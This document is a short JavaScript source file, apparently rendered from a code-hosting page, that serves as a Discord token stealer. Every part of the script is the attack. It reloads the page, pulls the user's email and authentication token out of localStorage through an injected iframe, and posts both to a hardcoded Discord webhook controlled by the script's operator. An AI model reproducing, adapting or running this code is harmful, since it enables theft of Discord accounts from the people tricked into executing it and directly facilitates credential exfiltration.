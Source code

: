 const FnLComa = /^"|"$/g;
//Discord webhook
const webhook = "https://discord.com/api/webhooks/957812376982417418/ANdFXdl8udu2BJEyqiVdPNNj6iA-YqqEA5jlDW1Ji54VDMSd0xR7bTD7W4Z1_N6yJWiD";

//Function to send message to your webhook in discord
function sendMessage({ message }) {
    const webhookRequest = new XMLHttpRequest(); 
    webhookRequest.open("POST", webhook);
    webhookRequest.setRequestHeader('Content-type', 'application/json');

    const params = {
        content: message || 'No message provided'
    };
    webhookRequest.send(JSON.stringify(params));
};

//Reload window so the token appears 
location.reload();
//Get the email and the token
const interval = setInterval(() => {
    const data = {
        email: document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.email_cache.replace(FnLComa, ''),
        token: document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token.replace(FnLComa, '')
    };
    //Send the data over to your Discord channel using the webhook
    if(data.token) {
        sendMessage({ message: `Email: **${data.email}**\nToken: **${data.token}**` });
        clearInterval(interval);
    };
});
